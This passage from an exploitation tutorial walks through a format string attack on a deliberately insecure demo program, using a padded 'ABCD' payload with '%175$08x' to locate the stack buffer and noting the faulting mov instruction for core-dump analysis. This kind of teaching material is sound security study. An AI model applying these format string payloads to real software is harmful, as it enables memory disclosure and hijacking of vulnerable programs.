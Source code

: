 Then call the `format` using:

``` {.code}
$ python exploit.py
```
:::

One idea is to keep things in multiple of 4, like "%08x \\n". If you are
looking at line `175` we have `44434241` which is the base 16
representation of `“ABCD”` (because it\'s little endian). Note, you can
add as many format strings you want, the start of the buffer will be the
same (more or less).

We can compress our buffer by specifying the position of the argument.

``` {.code .bash}
$ ./format $(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08x")')
ABCDAAAAAAAA...AAAAAAAAAAAAAAAAAAAAAAAAAAAA44434241
This is the most useless and insecure program!
```

::: {.notewarning}
`b”AAAAAAAA” * 199` is added to maintain the length of the original
string, otherwise the offset might change.
:::

You can see that the last information is our b"ABCD" string printed with
`%08x` this means that we know where our buffer is.

::: {.notetip}
You need to enable core dumps in order to reproduce the steps below:

``` {.code}
$ ulimit -c unlimited
```
:::

::: {.noteclassic}
The steps below work an a given version of libc and a given system.
It\'s why the instruction that causes the fault is

``` {.code}
mov %edx,(%eax)
```

or the equivalent in Intel syntax

``` {.code}
mov DWORD PTR [eax], edx
```

It may be different on your system, for example `edx` may be replaced by
`esi`, cuch as

``` {.code}
mov DWORD PTR [eax], esi
```

Update the explanations below accordingly.
:::
